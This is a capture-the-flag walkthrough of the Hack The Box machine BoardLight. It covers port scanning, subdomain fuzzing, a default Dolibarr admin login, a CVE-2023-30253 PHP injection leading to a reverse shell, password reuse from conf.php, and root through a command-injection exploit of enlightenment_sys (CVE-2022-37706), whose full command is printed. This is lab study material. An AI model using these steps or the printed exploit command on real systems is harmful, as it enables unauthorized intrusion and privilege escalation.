



# BoardLight Walkthrough

## Recon

### nmap
Let's use some nmap to open TCP ports

#### nmap -p- --min-rate 10000 10.129.231.37

PORT   STATE SERVICE  
22/tcp open  ssh  
80/tcp open  http  

=> So we have 2 ports open

Let's check the version of each port
#### nmap -p 22,80 -sCV 10.129.231.37

PORT   STATE SERVICE VERSION  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey: 
|   3072 06:2d:3b:85:10:59:ff:73:66:27:7f:0e:ae:03:ea:f4 (RSA)  
|   256 59:03:dc:52:87:3a:35:99:34:44:74:33:78:31:35:fb (ECDSA)  
|_  256 ab:13:38:e4:3e:e0:24:b4:69:38:a9:63:82:38:dd:f4 (ED25519)  
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))  
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).  
|_http-server-header: Apache/2.4.41 (Ubuntu)  
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel  

=> Based on the OpenSSH and Apache versions, the host is running Ubuntu 20.04 LTS (Focal Fossa)

### Website - TCP 80
Let's the target IP to the domain 

#### echo '10.129.231.37 boardlight.htb' | sudo tee -a /etc/hosts 

The page has a contact us form, but it doesn’t send data anywhere. Also, there is an email address at the bottom:

info@board.htb => review the domain to /etc/hosts

Let's use some feroxbuster

#### feroxbuster -u http://boardlight.htb/ -x php
=> Nothing is interested

Then I used ffuf to find subdomain

#### ffuf -u http://boardlight.htb/ -H Host: FUZZ.board.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -mc all -ac

The result is 

crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 634ms]  
#www                    [Status: 400, Size: 301, Words: 26, Lines: 11, Duration: 30ms]  
#mail                   [Status: 400, Size: 301, Words: 26, Lines: 11, Duration: 107ms]  

Let is add them to the hosts

10.129.231.37 boardlight.htb board.htb crm.board.htb

I visit this URL http://crm.board.htb

There is login for Dolibarr ERP/CRM. The version 17.0.0. is given just above the form div.

I try to log in with default credentials and are successful with admin/admin

Most of the features are grayed out but user is a admin but without proper admin previledge

### Shell as www-data

I search dolibarr 17.0.0 exploit and find CVE-2023-30253. Basically, A user with privileges to read and modify website content (HTML/JS) can bypass restrictions to achieve Remote Code Execution (RCE) via PHP code injection, creating unauthorized PHP pages.

Let's create a website with search bar

Then I edit

I hit the binoculars to redirect to the website. I got  www-data www-data

Let's do some reverse shell with this payload below

I hit the binoculars to redirect to the website and it hangs. While I check my 
#### nc -lnvp 443
listening on [any] 443 ...   
connect to [10.10.15.146] from (UNKNOWN) [10.129.231.37] 50504   
bash: cannot set terminal process group (869): Inappropriate ioctl for device   
bash: no job control in this shell   
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$   

Let's do some upgrade

#### script /dev/null -c bash

### Shell as laraissa

There is one user in /home directory

www-data@boardlight:~/html/board.htb$ cd /home  
www-data@boardlight:/home$ ls  
larissa  

Let's check any /etc/passwd
#### at /etc/passwd | grep "sh$"

root:x:0:0:root:/root:/bin/bash  
larissa:x:1000:1000:larissa,,,:/home/larissa:/bin/bash  

=> So www-data isn’t able to access larissa’s home folder.

I  search for the config file conf.php and find it in 

/var/www/html/crm.board.htb/htdocs/conf/conf.php 

So I cat the conf.php and find some password

$dolibarr_main_db_user='dolibarrowner';  
$dolibarr_main_db_pass='serverfun2$2023!!';  

I do su -  
Password:   
su: Authentication failure  

=> but not working so I do su -larissa

www-data@boardlight:~/html/crm.board.htb/htdocs/conf$ su - larissa  
Password:   
larissa@boardlight:~$ whoami  
larissa  

Or you can ssh in ssh larissa@board.htb

So user flag is 

larissa@boardlight:~$ cat user.txt  
d7262bc0bc68f90802b1496ba9d54674  

### Shell as the root

So I check if larissa have sudo

larissa@boardlight:~$ sudo -l  
[sudo] password for larissa:   
Sorry, user larissa may not run sudo on localhost.  

larissa isn’t able to see any other user’s processes due to /proc being mounted with hidepid=invisible  

larissa@boardlight:~$ ps auxww  
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND  
larissa     1846  0.0  0.1  10668  4836 pts/0    S+   19:11   0:00 -bash  
larissa     1889  0.0  0.1  10632  5016 pts/1    Ss   19:12   0:00 -bash  
larissa     1908  0.0  0.0  11496  3264 pts/1    R+   19:14   0:00 ps auxww  
larissa@boardlight:~$ mount | grep "^proc"  
proc on /proc type proc (rw,relatime,hidepid=invisible)  

The SetUID binaries on the box are typically:

#### find / -perm -4000 2>/dev/null  

There are something interesting which Enlightenment 

/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys  
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd  
/usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight  
  
I do some search and found CVE-2022-37706

So there is shell script https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit 

and I tried manually first to learn more (from 0xdf)

I need 2 directories

larissa@boardlight:~$ mkdir /tmp/net  
larissa@boardlight:~$ mkdir -p "/tmp/;/tmp/ad"  
larissa@boardlight:~$ find '/tmp/;' -ls  
   524346      4 drwxrwxr-x   3 larissa  larissa      4096 May  7 19:23 /tmp/;  
   524347      4 drwxrwxr-x   3 larissa  larissa      4096 May  7 19:23 /tmp/;/tmp  
   524348      4 drwxrwxr-x   2 larissa  larissa      4096 May  7 19:23 /tmp/;/tmp/ad  

Now, when the cmd injection works, it’s going to call /tmp/ad. So I put a script that just runs bash and make it executable:

#### echo "/bin/bash" > /tmp/ad

Then 

#### chmod +x /tmp/ad

So then I run enlightenment_sys to trigger. It will check that /dev/../tmp/;/tmp/exploit exists as a directory, and then call system, resulting in calling bash, which returns to a root shell:

#### /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys /bin/mount -o noexec,nosuid,utf8,nodev,iocharset=utf8,utf8=0,utf8=1,uid=$(id -u), "/dev/../tmp/;/tmp/ad" /tmp///net

root@boardli  ght:/home/larissa# whoami
root  
  
Then the root user 

root@boardlight:/root# cat root.txt  
6c44924b3aef6fb873e12bded6ff0582  
